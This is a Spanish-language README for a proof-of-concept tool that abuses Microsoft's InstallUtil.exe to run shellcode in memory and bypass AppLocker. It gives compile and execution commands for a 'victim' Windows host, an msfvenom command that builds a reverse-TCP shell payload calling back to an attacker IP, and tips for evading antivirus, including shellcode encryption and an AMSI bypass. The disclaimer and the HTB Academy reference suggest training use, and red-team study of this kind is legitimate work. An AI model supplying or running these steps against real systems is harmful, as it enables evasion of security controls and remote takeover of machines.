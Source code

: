 
---

### ✅ `bypass`

```markdown
# 🚀 InstallUtil Shellcode Loader (.NET LOLBAS)

Este proyecto es una prueba de concepto que demuestra cómo abusar del binario legítimo `InstallUtil.exe` para ejecutar código arbitrario en memoria (shellcode), incluso en entornos restringidos con AppLocker habilitado. Utiliza técnicas **LOLBAS (Living Off the Land Binaries and Scripts)** para evadir controles de seguridad.

---

## 📌 ¿Qué es InstallUtil?

`InstallUtil.exe` es una herramienta legítima de Microsoft que se usa para registrar y desinstalar servicios. Se encuentra en:

- **32-bit:** `C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe`
- **64-bit:** `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe`

Debido a que está firmada por Microsoft y ubicada en `C:\Windows`, AppLocker suele permitirla bajo sus reglas predeterminadas.

---

## ⚙️ Funcionamiento

Este proyecto define una clase `Installer` personalizada que sobrescribe el método `Uninstall()`. Al ejecutar `InstallUtil.exe /u`, se invoca ese método y se carga un payload (`micr0_shell`) en memoria utilizando llamadas directas a la API de Windows:

- `VirtualAlloc` – reserva memoria RWX
- `Marshal.Copy` – copia el shellcode en esa memoria
- `CreateThread` – ejecuta el shellcode
- `WaitForSingleObject` – espera a que termine

---

## ✅ Validar que AppLocker lo permite

Antes de ejecutar el ataque, asegúrate de que `InstallUtil.exe` está **permitido** por la política efectiva de AppLocker:

```powershell
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe"
```

Si ves:

```
PolicyDecision     MatchingRule
--------------     -------------
Allowed            All files located in the Windows folder
```

✅ ¡Puedes proceder! AppLocker permite el binario y tu bypass funcionará.

---

## 💻 Requisitos

- Sistema de destino: **Windows x64**
- Shellcode compatible con **x64**
- Acceso para ejecutar `InstallUtil.exe` (requiere permisos elevados)
- Mono (para compilar desde Linux)

---

## 🛠️ Compilación (en Linux con Mono)

```bash
sudo apt install mono-complete
mcs -target:library -platform:x64 -r:System.Configuration.Install.dll -out:NotMalware_IU.dll NotMalware_IU.cs
```

---

## 🚀 Ejecución (en Windows víctima)

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Path\NotMalware_IU.dll
```

> El método `Uninstall()` será invocado automáticamente y ejecutará el shellcode en memoria.

---

## 🧨 Generar shellcode

Puedes usar `msfvenom` para generar shellcode crudo en formato C# (byte array):

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<TU_IP> LPORT=<PUERTO> -f csharp EXITFUNC=thread
```

Pega el contenido directamente dentro del `byte[] shellcode` en el archivo `.cs`.

---

## 🔐 Evasión adicional (opcional)

Para evitar detección por AV:

- Cifra el shellcode con XOR o AES
- Realiza la decodificación en tiempo de ejecución
- Cambia nombres de clases y métodos
- Aplica AMSI Bypass antes de la carga del shellcode

---

## 🧪 Estructura del repositorio

```
.
├── NotMalware_IU.cs         # Código fuente del loader
├── NotMalware_IU.dll        # Binario compilado (InstallUtil)
└── README.md                # Este archivo
```

---

## ⚠️ Disclaimer

Este código es **únicamente para fines educativos y de investigación**. El uso no autorizado de estas técnicas puede violar leyes locales o internacionales. El autor no se hace responsable del mal uso de esta herramienta. **Úsalo solo en entornos controlados y con permiso explícito.**

---

## 🔗 Referencias

- [LOLBAS Project](https://lolbas-project.github.io/)
- [Microsoft Docs - InstallUtil.exe](https://learn.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool)
- [HTB Academy – Windows Evasion Techniques](https://academy.hackthebox.com/module/254/section/2833/)
```

